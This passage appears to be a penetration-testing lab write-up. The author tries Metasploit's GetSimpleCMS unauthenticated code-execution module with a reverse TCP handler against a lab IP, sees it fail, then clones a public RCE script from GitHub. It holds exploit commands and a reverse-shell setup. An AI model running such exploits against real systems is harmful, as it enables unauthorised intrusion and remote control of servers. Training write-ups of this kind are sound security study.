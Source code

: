 ```


View the full module info with the info, or info -d command.
```

*Entering in the options*
```
msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > set RHOSTS 10.129.153.32
RHOSTS => 10.129.153.32
msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > set TARGETURI /admin
TARGETURI => /admin
```

```
msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > exploit
[*] Started reverse TCP handler on 192.168.40.135:4444 
[-] Exploit aborted due to failure: not-vulnerable: It appears that the target is not vulnerable
[*] Exploit completed, but no session was created.
msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > 
```

I assume this didn't work because I was giving the wrong information into msfconsole
### Using a script off Github
```
──(kali㉿kali)-[~/Desktop/kc]
└─$ git clone https://github.com/cybersecaware/GetSimpleCMS-RCE.git
Cloning into 'GetSimpleCMS-RCE'...
remote: Enumerating objects: 13, done.
remote: Counting objects: 100% (13/13), done.
remote: Compressing objects: 100% (13/13), done.
remote: Total 13 (delta 1), reused 8 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (13/13), 552.31 KiB | 2.39 MiB/s, done.
Resolving deltas: 100% (1/1), done.


┌──(kali㉿kali)-[~/Desktop/kc]
└─$ ls
51475.py    GetSimpleCMS-RCE       knowledgecheck2.nmap  knowledgecheck.gnmap  knowledgecheck.xml
admin.hash  knowledgecheck2.gnmap  knowledgecheck2.xml   knowledgecheck.nmap


┌──(kali㉿kali)-[~/Desktop/kc]
└─$ cd GetSimpleCMS-RCE 


┌──(kali㉿kali)-[~/Desktop/kc/GetSimpleCMS-RCE]
└─$ ls
GetSimpleCMS-RCE.py  images  LICENSE  README.md
```

*making a python virtual environment so that I don't break anything*
```
──(kali㉿kali)-[~/Desktop/kc/GetSimpleCMS-RCE]
└─$ python3 -m  venv gs 
```
